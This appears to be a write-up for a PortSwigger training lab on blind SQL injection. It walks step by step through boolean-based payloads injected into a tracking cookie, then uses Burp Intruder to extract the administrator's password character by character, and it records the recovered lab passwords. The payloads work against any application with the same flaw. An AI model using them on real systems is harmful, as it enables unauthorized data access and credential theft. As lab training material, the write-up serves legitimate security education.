 # Blind SQL injection with conditional responses

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.


---
#blind_sql
**NOTE**: some important SQL query

![screnshot](./images/lab11_limit_sql_query.png)

step 1

open lab click to any category you will get `Welcome back!` message

![screnshot](./images/lab11_welcome_back_mesaage.png)

send `/filter?category=lifestyle` to repeater
send request you will get `Welcome back!` message

![screnshot](./images/lab11_lifestyle_send_to_repeater.png)

step 2

In TrackingId=xyzjjgjjgj(any random text present) add  `' AND '1'='1` 
and send request
you will get `Welcome back!` because  *'1'='1*  is true

![screnshot](./images/lab11_test_1_equal_1.png)

step 3

add payload
`' AND '1'='2`
you will  not get `Welcome back!` because  *'1'='2*  not true

![screnshot](./images/lab11_test_1_equal_2.png)

step 4

add payload
`' AND (SELECT 'a' FROM users LIMIT 1)='a`
send request
you will get `Welcome back!` *SELECT 'a' FROM users LIMIT 1* it will return *a* so *'a'='a* is true

![screnshot](./images/lab11_limit_test_case.png)

step 5

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
you will get `Welcome back!`

![screnshot](./images/lab11_test_true_condition_a_equal_a.png)

step 6

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
you will get `Welcome back!`
it means password is greater than 1

![screnshot](./images/lab11_password_greater_than_1.png)

step 7

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`
you will not get `Welcome back!`
it means password is not greater than 20

![screnshot](./images/lab11_paswword_greater_than_20.png)

step 8

add payload
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
you will get `Welcome back!`
it means password is greater than 19 
so actual size of password is 20, you can use intruder to find out size of password

![screnshot](./images/lab11_wecome_back_one_match.png)

step 9

add paload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
you will not get `Welcome back!`

![screnshot](./images/lab11_welcomeback_zero_match.png)

step 10

in intruder
add payload
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
click on attack

![screnshot](./images/lab11_intruder_payload.png)

in payload setting
payload type Simple list
and in setting Grep-Match clear first then add `Welcome back!`

![screnshot](./images/lab11_payload_grep_setting.png)

once attack is finished
you will see `1` in `welcome back` note down that alphabet or digit

![screnshot](./images/lab11_attack_result.png)

step 11

since you have password length 20 so you have to attack 20 times
`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` => 0 (first alphabet)
`' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` => l (2nd alphabet)
perform 3,4,5,..... to 20
`' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='§a§` => m (20th alphabet)

note down each password `0lujlxuejvv4qcjy82am`

step 12

To solve the lab
login using `administrator` as username and password is `0lujlxuejvv4qcjy82am`

![screnshot](./images/lab11_solved_lab.png)


___
another method to save repetitive task

![screnshot](./images/lab11_cluster_bomb_attack.png)

![screnshot](./images/lab11_payload1_payload2_grep_match.png)

![screnshot](./images/lab11_result_after_attack.png)

payload 1 is the position and payload 2 is alphabet or digit 
like 7 is first 20 is t
`7lukwn1c04v1bpkdf36t`

